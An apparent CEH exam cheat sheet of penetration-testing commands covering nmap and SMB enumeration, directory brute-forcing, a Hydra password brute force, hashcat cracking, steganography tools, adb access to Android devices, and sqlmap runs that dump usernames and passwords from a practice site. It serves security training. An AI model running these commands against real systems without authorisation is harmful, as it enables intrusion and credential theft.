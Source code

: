# Command

**All the commands that you need to know:**

How many machines are active in a network - net discover -i 192.168.1.0/24

Connect to RDP via cmd - mstsc

- **Find DNS records -** [https://www.nslookup.io/](https://www.nslookup.io/)

Scan the whole website- (skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl [http://10.10.10.10:8080](http://10.10.10.10:8080/))

- o output
- S wordlist
- **To brute force directories or files-**

robuster dir  -u 10.10.10.10  -w /usr/share/dirb/wordlists/common.txt  -x  .txt

OR

uniscan -u [http://10.10.10.12:8080/CEH](http://10.10.10.12:8080/CEH) -q   (for directories)

uniscan –u [http://10.10.10.12:8080/CEH](http://10.10.10.12:8080/CEH) -we (enable file check like robots.txt and sitemap.xml)

- **To get the file from the server-** get [http://10.10.10.10/secret.txt](http://10.10.10.10/secret.txt)
- **FTP Login -** ftp <ip>

get <file name>   (to get file from FTP login)

**SSH Login** - SSH username@10.10.10.10

- **Nmap scan**

Nmap  -A 10.10.10.10  (aggressive scan- Traceroute, T4, OS)

nmap  -sC  (service scan)

nmap -sV  (version scan)

nmap  -sP 10.10.10.10/24  (how many hosts are up in the whole network)/ping scan

nmap  -sL  (hostnames)

nmap  -oN <filename>  (to save output in a file)

nmap  -F  (fast scan)

nmap  -O  (os scan)

- **Crack the hashes-**

hashid  -m <hash>  (to identify the type of hash, its mode etc)

hashcat  -m <mode>  -a 0  <hashhhhhhhh> /usr/share/wordlist/rockyou.txt

crackstation

[hashes.com](http://hashes.com/)

Cyberchef

- **Enumeration-**

Global network inventory

Netbios enumerator

Hyena

Superscan

Advanced ip scanner

- **nmap smb scripts-**

nmap --script smb-os-discovery.nse -p445 <ip>  (enumerate os, domain name,etc)

nmap --script smb-enum-users.nse -p445 <ip>  (used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing)

nmap -p 445 --script=smb-enum-shares.nse, smb-enum-users.nse 10.10.19.21 (smb users and shares)

smbclient //10.10.19.21/anonymous  (accessing smb shares)

smbget -R smb://10.10.19.21/anonymous   (downloading smb files)

- **enum4linux**

enum4linux -u martin -p apple -U 10.10.10.12 | - u user -p pass -U get user list

enum4linux -u martin -p apple -o 10.10.10.12 | -o get OS info

enum4linux -u martin -p apple -P 10.10.10.12 | -P get password policy info

enum4linux -u martin -p apple -G 10.10.10.12 | -G get groups and members info

enum4linux -u martin -p apple -S 10.10.10.12 | -S get share list info

enum4linux -u martin -p apple -a 10.10.10.12 | -a get all simple enumeration data [-U -S -G -P -r -o -n -i]

- **Wpscan**

**wpscan --url http://[IP Address]:8080/CEH --enumerate u  (**enumerate the usernames stored in the website’s database)

- **Vulnerability analysis**

nikto  -h  [http://testphp.vulnweb.com/login.php](http://testphp.vulnweb.com/login.php) -Tuning 1

- **Bruteforce-**

Hydra  -L username  -P /usr/share/wordlists/rockyou.txt [ftp://xiotz.com](ftp://xiotz.com/)

- **Cryptography-**

Hashcalc

Md5 calculator

Cryptool – decode .hex file

Bctextencoder – decrypt text using secret key

Veracrypt – anything related to volume

1. **Crack hashes-** [hashes.com](http://hashes.com/), cyberchef
2. **Steganography-**
3. Steghide embed -ef <filename> -cf <image> -p <passphrase>
4. Steghide extract -sf <image> (extract hidden data from image)
5. Stegcracker <image> /usr/share/wordlists/rockyou.txt (crack the passphrase of image)
6.  [https://futureboy.us/stegano/decinput.html](https://futureboy.us/stegano/decinput.html) (online steganography tool)
7. sha256sum <filename> (find hash of the file)
- **Android Hacking-**

via USB

./adb tcpip 5555

./adb connect 192.168.43.117:5555

./adb devices

./adb  -d shell (Direct an adb command to the only attached USB device)

ls

cd sdcard

ls

cd dcim

cd camera

ls

./adb   push                C:\platform-tools\[ota.zip](http://ota.zip/) /sdcard/Download           (from pc to android)

<            pc location   >                  <android location>

./adb   pull     /sdcard/Download/magisk_patched.img       C:\platform-tools            (from android to pc)

<            android location   >                      <pc location>

- **sqlmap-**

site:[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/) php?= (for finding vulnerable site)

(for cookies- console->document.cookie)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) --dbs   (databases)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) -D acuart –tables   (tables)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) -D acuart -T users --columns   (columns)

(dump whole table)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) -D acuart -T users  --dump

OR

(dump individual  column data)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) -D acuart -T users -C uname  --dump

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1) -D acuart -T users -C pass  --dump